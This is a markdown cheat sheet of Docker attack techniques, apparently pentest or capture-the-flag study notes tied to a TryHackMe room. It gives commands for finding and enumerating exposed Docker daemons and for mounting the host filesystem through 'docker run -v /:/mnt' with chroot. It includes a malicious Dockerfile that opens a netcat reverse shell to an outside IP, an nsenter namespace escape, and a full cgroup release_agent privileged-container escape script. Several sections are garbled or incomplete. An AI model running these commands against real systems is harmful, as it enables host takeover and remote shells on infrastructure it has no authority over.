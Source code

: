 # Docker Hacking
How do you know you are in a docker container?
[pspy](https://github.com/DominicBreuker/pspy) on Linux
Systernals proc\*-related tools or access with tasklist for windows.

## How to know when you are in a container
```bash
.dockerenv
cat /proc/$pid/cgroup | grep docker
```

## Preface
Add IP and domain name to /etc/hosts
```bash
echo "$IP $DOMAIN" | tee -a /etc/hosts
```

Configure Docker to trust your instance, either make `/etc/docker/daemon.json` or enter:
```json
{
	 "target-id" : ["docker-domain.name:$DOCKERPORTLOW","docker-domain.name:$DOCKERPORTHIGH"]
}
```

Control Docker(Linux)
```bash
systemctl stop docker
systemctl start docker
```

## What is Docker and Containers?

The Docker Engine that is layer of computational organisation above the hardware, the host OS and its kernel. It is not a hypervisor. Each Docker contain must have the same kernel type to operate. A container is commonly used to hold an environment or specific OS of an OS family to test system variation of running software. It is similar to VM hosting but Docker with there is **NO** virtualisation, hence requiring host OS that host Contain running similar OSes. Docker images are a read-only template of instruction for creating a Docker container. 

[Some ways to secure a docker container](https://faun.pub/hack-your-docker-container-6d3e1e1b363)

## Docker Commands

```bash
RUN echo "Docker"
COPY 
````

[Commands](https://docs.docker.com/engine/reference/commandline/cli/)

##  Docker Enumeration
On target machine enumerate the lay of the land:
```bash
docker -H $remotehost $dockcmd
docker ps
docker version
docker image ls
docker config ls
```

## GTFOBins/docker
[gtofbins](https://gtfobins.github.io/gtfobins/docker/#shell)

## Accessing Docker Container and exec..
```
docker -H $remotehost run -v /:/mnt --rm -it -d $image:$tag
docker -H $remotehost run -v /:/mnt --rm -it $image:$tag chroot /mnt sh

```

## Abusing Docker Registry
[Docker registries](https://docs.docker.com/registry/) are stateless server side application stores the Docker Image. Registries store and provide Docker images for use. Private registeries contain variouses called a **tag**. The Docker Registry is a JSON endpoint query it with 

Nmap scan to find the ports to interact with the container.

```bash
# postman
GET http://$domain:$port/
````

## Reversing Images
Download the image to reverse
```docker
docker pull app/app:$TAG
```

[Dive](https://github.com/wagoodman/dive) is a tool for exploring each layer in a docker image. 

## Uploading Malicious Docker Images
Dockerfile 
```docker
FROM $image:

RUN apt-get update -y
RUN apt-get install netcat -y # Socat would be better!
RUN nc -c /bin/sh $IP $PORT
```
Build image
```bash
docker build
```
Then upload with push:
```
docker push
```

## Shared Namespaces
Namespaces segregate system resources. Have root access inside the container or potential use pspy. 
Find a namespace
```bash
ps aux
```
We then mount the namespace of the process running outside of the container with a sh shell.
```
nsenter --target $PID --mount sh
```

## Misconfigured Privilieges
If a docker container is running with privileged mode it bypasses the Docker engine and has direct communication with host OS. List container capabilities with:
```
capsh --print | grep # admin chroot sys_module sys_time
```
The commented out greppables indicate privilege mode. [PoC](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)
```bash
# On the host
# docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
 
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## References

[Docker](https://docs.docker.com/get-started/overview/)
[THM Room](https://tryhackme.com/room/dockerrodeo)
[trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)
[cgroups](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)